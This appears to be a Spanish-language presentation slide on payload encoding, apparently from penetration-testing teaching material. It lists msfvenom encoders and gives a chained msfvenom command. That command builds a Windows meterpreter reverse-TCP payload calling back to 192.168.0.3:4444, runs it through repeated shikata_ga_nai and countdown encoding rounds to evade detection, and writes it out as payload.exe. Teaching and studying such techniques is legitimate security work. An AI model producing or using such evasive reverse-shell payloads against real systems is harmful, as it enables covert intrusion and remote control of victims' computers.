

Encoding
Listado de encoders
msfvenom -l encoders
Encoding encadenado
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.3 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 |  msfvenom -a x86 --platform windows -e x86/countdown -i 8 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe